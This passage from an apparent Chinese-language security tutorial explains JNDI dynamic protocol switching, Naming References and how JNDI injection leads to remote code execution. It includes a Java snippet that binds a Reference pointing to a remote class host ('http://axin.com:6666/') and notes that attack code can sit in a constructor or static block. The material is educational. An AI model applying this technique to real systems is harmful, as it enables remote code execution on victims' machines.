 由于上面的代码将服务端与客户端写到了一起，所以看着不那么清晰，我看到很多文章里吧JNDI工厂初始化这一步操作划分到了服务端，我觉得是错误的，配置jndi工厂与jndi的url和端口应该是客户端的事情。

> ps：可以对比一下前几章的rmi demo与这里的jndi demo访问远程对象的区别，加深理解 


### 0x04 JNDI动态协议转换

我们上面的demo提前配置了jndi的初始化环境，还配置了Context.PROVIDER_URL，这个属性指定了到哪里加载本地没有的类，所以，上面的demo中
`ctk.lookup("rmi://localhost:1099/hello")`这一处代码改为`ctk.lookup("hello")`也是没啥问题的。

那么动态协议转换是个什么意思呢？其实就是说即使提前配置了Context.PROVIDER_URL属性，当我们调用lookup()方法时，如果lookup方法的参数像demo中那样是一个uri地址，那么客户端就会去lookup()方法参数指定的uri中加载远程对象，而不是去Context.PROVIDER_URL设置的地址去加载对象(如果感兴趣可以跟一下源码，可以看到具体的实现）。

正是因为有这个特性，才导致当lookup()方法的参数可控时，攻击者可以通过提供一个恶意的url地址来控制受害者加载攻击者指定的恶意类。

但是你以为直接让受害者去攻击者指定的rmi注册表加载一个类回来就能完成攻击吗，是不行的，因为受害者本地没有攻击者提供的类的class文件，所以是调用不了方法的，所以我们需要借助接下来要提到的东西


### 0x05 JNDI Naming Reference

Reference类表示对存在于命名/目录系统以外的对象的引用。如果远程获取 RMI 服务上的对象为 Reference 类或者其子类，则在客户端获取到远程对象存根实例时，可以从其他服务器上加载 class 文件来进行实例化。

Java为了将Object对象存储在Naming或Directory服务下，提供了Naming Reference功能，对象可以通过绑定Reference存储在Naming或Directory服务下，比如RMI、LDAP等。

在使用Reference时，我们可以直接将对象传入构造方法中，当被调用时，对象的方法就会被触发，创建Reference实例时几个比较关键的属性：

-  className：远程加载时所使用的类名；
-  classFactory：加载的class中需要实例化类的名称；
-  classFactoryLocation：远程加载类的地址，提供classes数据的地址可以是file/ftp/http等协议；

当然，要把一个对象绑定到rmi注册表中，这个对象需要继承UnicastRemoteObject，但是Reference没有继承它，所以我们还需要封装一下它，用 ReferenceWrapper 包裹一下Reference实例对象，这样就可以将其绑定到rmi注册表，并被远程访问到了，demo如下：

```java
// 第一个参数是远程加载时所使用的类名， 第二个参数是要加载的类的完整类名(这两个参数可能有点让人难以琢磨，往下看你就明白了），第三个参数就是远程class文件存放的地址了
Reference refObj = new Reference("refClassName", "insClassName", "http://axin.com:6666/"); 
ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
registry.bind("refObj", refObjWrapper);
```

当有客户端通过lookup("refObj")获取远程对象时，获取的是一个Reference存根（Stub),由于是Reference的存根，所以客户端会现在本地的classpath中去检查是否存在类refClassName，如果不存在则去指定的url（http://axin.com:6666/refClassName.class）动态加载，并且调用insClassName的**无参构造函数**，所以可以在构造函数里写恶意代码。当然除了在无参构造函数中写利用代码，还可以利用java的static代码块来写恶意代码，因为static代码块的代码在class文件被加载过后就会立即执行，且只执行一次。

了解更多关于static代码块，参考：https://www.cnblogs.com/panjun-donet/archive/2010/08/10/1796209.html

### 0x06 JNDI注入


##### jndi注入原理

就是将恶意的Reference类绑定在RMI注册表中，其中恶意引用指向远程恶意的class文件，当用户在JNDI客户端的lookup()函数参数外部可控或Reference类构造方法的classFactoryLocation参数外部可控时，会使用户的JNDI客户端访问RMI注册表中绑定的恶意Reference类，从而加载远程服务器上的恶意class文件在客户端本地执行，最终实现JNDI注入攻击导致远程代码执行
